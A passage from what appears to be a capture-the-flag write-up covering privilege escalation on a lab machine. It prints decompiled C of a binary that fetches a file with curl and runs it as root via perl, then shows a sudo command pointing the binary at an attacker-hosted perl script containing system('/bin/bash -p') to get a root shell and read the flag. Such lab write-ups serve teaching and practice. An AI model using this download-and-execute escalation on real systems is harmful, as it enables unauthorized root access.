 ```C
    iVar2 = snprintf((char *)0x0,0,"perl ./%s",__s);
    __s_00 = (char *)malloc((long)iVar2 + 1);
    snprintf(__s_00,(long)iVar2 + 1,"perl ./%s",__s);
    fclose(__stream);
    curl_easy_cleanup(uVar3);
    setuid(0);
    system(__s_00);
    system("rm -f ./lDnxUysaQn");
    return 0;
  }
```

The main function here seems to hold all the important bits. In short it checks the user's id for root, then checks for the second parameter to be equal to lDnxUysaQn, it performs some curl commands then will run a perl file supposedly supplied by the first parameter. 

Now let's make a random perl file to determine if the command spits out an error.

```bash
smorton@investigation:~$ sudo binary http://10.10.14.14/perl.pl lDnxUysaQn
Running... 
Exiting...
```

That seems promising, no errors. Let's change that perl file to a shell and try again. The contents are now **system("/bin/bash -p");**

```
smorton@investigation:~$ sudo binary http://10.10.14.14:8000/perl.pl lDnxUysaQn
Running... 
root@investigation:/home/smorton# cat /root/root.txt
f27565b46dd6e1------------------
```
